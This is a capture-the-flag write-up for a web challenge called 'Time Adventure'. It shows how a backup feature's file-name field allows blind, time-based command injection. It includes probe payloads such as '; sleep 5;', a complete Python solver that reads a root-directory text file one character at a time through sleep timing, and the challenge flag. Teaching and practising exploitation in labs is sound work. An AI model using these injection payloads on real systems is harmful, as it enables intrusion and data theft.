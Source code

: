# [WEB] Time Adventure

---

![timeadventure.png](../assets/timeadventure.png)

### 10th March 2024

**Author**: `kahang`

**Difficulty**: `Medium`

**Flag**: `FIA{t1m3_1s_4n_1llus10n}`

### Description

> *It's Adventure Time... Don't forget to back up your file.*
> 

### Objective

> Identifying and exploiting Blind Command Injection Vulnerabilities in the web application.
> 

---

# Solution

## Information Gathering

- First, we need to know what this web does and what features does it have.

![Untitled](../assets/Untitled.png)

- So there is a function that executes a Linux command `zip` to package the whole directory `/var/www/html` into `/tmp` with a custom file name to the backend server.
- Next, view the Source of the website and see a suspicious comment.
- Press `Ctrl + U` or `Right Click → View page source`.
    
    ![2024-03-10_14h26_26.png](../assets/2024-03-10_14h26_26.png)
    

```html
<!-- Admin Note: I have saved a secret credential in a super secret text file located in the "/" folder. Please make sure to check it out. -->
```

- With this information, we can guess that there’s a text file `.txt` in **`/`** (Root Directory) that might contain interesting data with an unknown name.

## Identify Vulnerability

- Try to inject some basic **Command Injection** payload. For example `; whoami ;`

![Untitled](../assets/Untitled%201.png)

- As we can see the web says that this command has been executed but there is no actual information from the server display back so we can’t know whether was it executed or not.
- Let’s verify it by sending a delay command to see if the backend server interpreting it. With the payload is `; sleep 5;`

![ezgif-5-de44b10e52.gif](../assets/ezgif-5-de44b10e52.gif)

- We have noticed that after executing the command, a loading GIF appears with a 5-second delay as if the command were set to `sleep 5`.

![Untitled](../assets/Untitled%202.png)

- This can be concluded as a Blind Command Injection or Time-based Command Injection.

## Crafting Payload

- By using `cat` with wild card `*` , we can read all the files within a directory without the need of knowing the file name and the `cut`command is used for taking each character one by one.

![Untitled](../assets/Untitled%203.png)

- Adding a little if-else statement so that we can check if the character taken out matches or not.

![Untitled](../assets/Untitled%204.png)

## Solver

- We could use the *Side Channel Attack* technique to extract data. The main idea is to "manipulate time" and grep data with the `sleep`command character-by-character from the backend.

![Untitled](../assets/Untitled%205.png)

- Here is the whole script:

```python
import requests 
import time
url = "https://timeadventure.fiahackingisfun.id.vn/"
charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/"
flag = ""
# Payload: Checks if the character matches
payload = "; if [ \"$(cat /*.txt|cut -c{})\" = \"{}\" ]; then sleep 2; fi;"
while True:
    for char in charset:
        query_payload = payload.format(len(flag)+1, char)
        data = {"command": "backup", "target": query_payload}
        start_time = time.time()  # Starts recording the time
        # Sending Request
        res = requests.post(url, data=data)
        end_time = time.time()  # Stops recording the time
        real_time = end_time - start_time
        # If the entire request and response time > 2, then append the character
        if real_time > 2:
            flag += char
            break
    print(flag)
```
